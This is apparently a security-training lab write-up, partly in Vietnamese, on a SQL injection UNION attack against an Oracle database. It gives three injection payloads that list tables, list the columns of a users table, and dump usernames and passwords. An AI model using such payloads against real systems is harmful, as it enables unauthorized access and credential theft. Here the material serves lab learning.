



# Lab: SQL injection attack, listing the database contents on Oracle

**PRACTITIONER**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Write-up

Tương tự như lab trên , điểm khác biệt duy nhất nằm ở syntax.
' UNION SELECT table_name, NULL FROM all_tables--

' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_ZEJUDF'--

' UNION SELECT USERNAME_UNPUJX, PASSWORD_FKEIEJ FROM USERS_ZEJUDF--

